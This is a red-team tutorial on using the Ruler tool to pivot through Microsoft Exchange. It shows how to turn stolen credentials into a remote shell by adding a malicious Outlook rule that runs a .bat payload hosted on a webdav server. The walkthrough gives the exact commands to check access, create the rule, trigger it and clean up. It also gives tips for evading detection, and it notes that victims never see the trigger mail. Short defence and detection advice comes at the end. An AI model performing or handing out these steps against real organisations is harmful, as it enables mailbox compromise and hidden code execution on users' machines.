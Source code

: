 # Pivoting Through Exchange Using Ruler

## Pre-requisits

* **Installing **[**GO **](https://github.com/golang)
* [**ruler** ](https://github.com/sensepost/ruler)

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim is abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is  gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting 



### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we  can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below 

```
go ruler run --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```
go ruler run --email test@lab.local display 
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its  listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server. 

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```
go ruler run --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up 

once we are done we can delete 

`go ruler run  --email test@lab.local delete --name test `

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.

1. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it 

The simplest method is to use a script microsoft made to get all the rules 

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

  You will need to have a global admin role to run the script



Written by : ~~**BufferOv3rride**~~

